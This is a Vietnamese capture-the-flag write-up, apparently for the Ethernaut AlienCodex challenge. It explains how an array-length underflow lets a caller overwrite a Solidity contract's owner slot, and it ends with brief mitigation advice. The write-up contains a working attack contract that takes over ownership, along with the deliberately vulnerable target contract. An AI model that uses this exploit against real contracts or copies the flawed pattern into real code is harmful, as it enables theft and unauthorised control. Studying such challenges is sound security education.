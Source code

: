 ### Kết luận
- Lỗ hổng: Lỗ hổng tràn bộ nhớ với mảng `codex`, hacker có thể dùng hàm retract để lùi chiều dài mảng `codex` (dùng hàm `retract`) đến nơi lưu địa chỉ của owner sau đó thực hiện ghi đè bới hàm `revise`.
- Thêm với, Hợp đồng sử dụng Ownable, nhưng lỗ hổng ghi đè địa chỉ `owner` (với `revise`) cho phép hacker thay đổi quyền sở hữu hợp đồng mà không cần qua xác thực.
- Cách phòng tránh: Không sử dụng mảng động, nên dùng mapping, giới hạn quyền truy cập nhỉ bới `owner` trong các hàm quan trọng (VD: `revise`, `retract`,..), sử dụng phiên bản sol cao hơn.
### Contract tấn công
```solidity
pragma solidity ^0.5.0;

import "../helpers/Ownable-05.sol";
interface IAlienCodex{
    function makeContact() external;
    function record(bytes32 _content);
    function retract() external;
    function revise(uint256 i, bytes32 _content) external;
}
contract AlienCodexAttack{
    IAlienCodex public victim;
    constructor (address challenge){
        victim = IAlienCodex(challenge);
    }
    function attack(address hacker) public{
        victim.makeContact(); // cho contact = true;
        victim.retract(); 
        uint256 ownerSlot = uint256(keccak256(abi.encodePacked(uint256(1))));
        uint i = 2**256 - ownerSlot;
        victim.revise(i, bytes32(uint256(uint160(hacker)))); // Ghi de owner boi dia chi nguoi tan cong.        
    }
}
```
### Contract
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.5.0;

import "../helpers/Ownable-05.sol";

contract AlienCodex is Ownable {
    bool public contact;
    bytes32[] public codex;

    modifier contacted() {
        assert(contact);
        _;
    }

    function makeContact() public {
        contact = true;
    }

    function record(bytes32 _content) public contacted {
        codex.push(_content);
    }

    function retract() public contacted {
        codex.length--;
    }

    function revise(uint256 i, bytes32 _content) public contacted {
        codex[i] = _content;
    }
}
```
### Contract Ownable-05.sol
```solidity
pragma solidity ^0.5.0;

/**
 * @dev Contract module which provides a basic access control mechanism, where
 * there is an account (an owner) that can be granted exclusive access to
 * specific functions.
 *
 * This module is used through inheritance. It will make available the modifier
 * `onlyOwner`, which can be aplied to your functions to restrict their use to
 * the owner.
 */
contract Ownable {
    address private _owner;

    event OwnershipTransferred(address indexed previousOwner, address indexed newOwner);

    /**
     * @dev Initializes the contract setting the deployer as the initial owner.
     */
    constructor () internal {
        _owner = msg.sender;
    }

    /**
     * @dev Returns the address of the current owner.
     */
    function owner() public view returns (address) {
        return _owner;
    }

    /**
     * @dev Throws if called by any account other than the owner.
     */
    modifier onlyOwner() {
        require(isOwner(), "Ownable: caller is not the owner");
        _;
    }

    /**
     * @dev Returns true if the caller is the current owner.
     */
    function isOwner() public view returns (bool) {
        return msg.sender == _owner;
    }

    /**
     * @dev Leaves the contract without owner. It will not be possible to call
     * `onlyOwner` functions anymore. Can only be called by the current owner.
     *
     * > Note: Renouncing ownership will leave the contract without an owner,
     * thereby removing any functionality that is only available to the owner.
     */
    function renounceOwnership() public onlyOwner {
        emit OwnershipTransferred(_owner, address(0));
        _owner = address(0);
    }

    /**
     * @dev Transfers ownership of the contract to a new account (`newOwner`).
     * Can only be called by the current owner.
     */
    function transferOwnership(address newOwner) public onlyOwner {
        _transferOwnership(newOwner);
    }

    /**
     * @dev Transfers ownership of the contract to a new account (`newOwner`).
     */
    function _transferOwnership(address newOwner) internal {
        require(newOwner != address(0), "Ownable: new owner is the zero address");
        emit OwnershipTransferred(_owner, newOwner);
        _owner = newOwner;
    }
}
```
